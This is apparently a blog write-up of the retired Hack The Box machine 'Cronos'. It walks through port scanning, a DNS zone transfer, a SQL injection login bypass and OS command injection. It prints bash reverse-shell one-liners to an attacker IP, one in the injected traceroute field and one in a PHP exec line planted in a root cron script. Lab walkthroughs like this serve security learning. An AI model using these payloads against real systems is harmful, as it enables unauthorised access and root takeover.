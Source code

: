 Title: HTB Cronos writeup
Tags: oscp, htb
Summary: Pwning another retired box from TJNull's list
Date: 2020-09-02 15:00
Status: published

# Enumeration
Started with `nmap -sS` full TCP range:
<pre>
Nmap 7.80 scan initiated Wed Sep  2 11:14:46 2020 as: nmap -sS -p- -oA nmap-ss cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.066s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done at Wed Sep  2 11:17:20 2020 -- 1 IP address (1 host up) scanned in 153.96 seconds
</pre>
Not so much services, at least no rabbit holes and dead ends I hope. Proceed with `-A`:
<pre>
Nmap 7.80 scan initiated Wed Sep  2 11:19:25 2020 as: nmap -sC -A -p22,53,80 -oA nmap-AT4-22-53-80 cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Cronos
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   60.90 ms 10.10.14.1
2   61.04 ms cronos.htb (10.10.10.13)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Wed Sep  2 11:19:44 2020 -- 1 IP address (1 host up) scanned in 20.08 seconds
</pre>
DNS server is pretty unusual to be open on web box, worth trying common enumeration methods for it.

![axfr](/cstatic/htb-cronos/axfr.png)

Lucky shot! DNS server kindly permits us to do AXFR for `cronos.htb` domain. Moreover, webserver is using
virtual hosts so webpages on `10.10.10.13` and `cronos.htb` are different - that's why we should always
check for this and add corresponding entries in the `/etc/hosts`. Also to navigate to `admin.cronos.htb`
it should be added to `/etc/hosts` as well. It shows us the login form, I spent a bit of time trying
some lame user and password pairs like `admin:admin` but that was in vain. Turned out there's a trivial
SQLi login bypass, that I usually try with these combinations, something like `' or 1=1 -- `. This SQLi
allows access to some sort of 'net tool':

![net tool](/cstatic/htb-cronos/net-tool.png)

I was immediately suspecting OS command injection in there and it was indeed the case. For example,
trying to traceroute to `8.8.8.8 || cat /etc/passwd` works well, looks like the box doesn't have
internet access or traceroute so first command fails and `cat` kicks in:

![command injection](/cstatic/htb-cronos/cmd-inj.png)

This allows to send shell back without the need to transfer any tools using command like this:
`8.8.8.8 || bash -c 'bash -i >& /dev/tcp/10.10.14.13/53 0>&1'`. Obviously we have to get receiver
running on appropriate port, nc for example. Here's shell:

![unpriv shell](/cstatic/htb-cronos/unpriv-shell.png)

# Privilege escalation
Since the beginning I was suspecting that this box should be pwned using cron in some way, as the 
name suggests. So the first that I did is transferred `pspy64` and started to wait for some interesting
jobs to run. After a couple of minutes one interesting thing popped out:

![artisan](/cstatic/htb-cronos/artisan-cron.png)

Lovely, the script is owned by current user and we have proper rights to edit it:

![artisan perms](/cstatic/htb-cronos/artisan-perms.png)

This is an instant root shell. Just spin up another listener and edit the script. I used such a fragment:
```php
# snip
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.13/443 0>&1");
# snip
```
To get root access:

![root shell](/cstatic/htb-cronos/root-shell.png)

Though this could possibly drive me to a dead end - who knows, maybe author intentionally gave this box a
tricky name? Maybe I should have better follow usual PE methodology, but it worked in a straightforward manner
and this that's matter most. I didn't even tried `sudo -l` which is a first thing to do usually.
